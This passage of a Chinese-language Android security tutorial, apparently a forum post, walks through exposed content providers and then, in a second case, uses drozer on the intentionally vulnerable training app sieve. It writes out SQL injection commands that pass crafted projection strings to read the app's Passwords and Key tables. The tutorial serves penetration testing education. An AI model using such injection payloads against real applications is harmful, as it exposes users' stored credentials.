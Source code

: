 搜索到对外暴露可访问的 uri:

 

![](https://bbs.pediy.com/upload/attach/202109/905443_XPTEEQJ8BN3A4VT.png)

 

newapp.db 结构：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_RJYZJ474YDF527J.png)

 

查看新安装应用的包名：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_WQYUCYAE8J6EYSH.png)

 

查看白名单：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_DN6Z86UBSCGP9BE.png)

 

![](https://bbs.pediy.com/upload/attach/202109/905443_772CTM5JEPZV9BC.png)

 

**案例 2：样本 sieve**

 

我们使用 drozer 扫描注入的位置：

```
run scanner.provider.injection -a <包名>

```

![](https://bbs.pediy.com/upload/attach/202109/905443_N9SJUZPPWC5FVN4.png)

 

然后我们执行以下命令，发现返回了报错信息，接着构造 sql 获取敏感数据

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection " * from Key;--+"

```

![](https://bbs.pediy.com/upload/attach/202109/905443_UEA2PVNM7SMW6M8.png)

 

列出所有表信息：
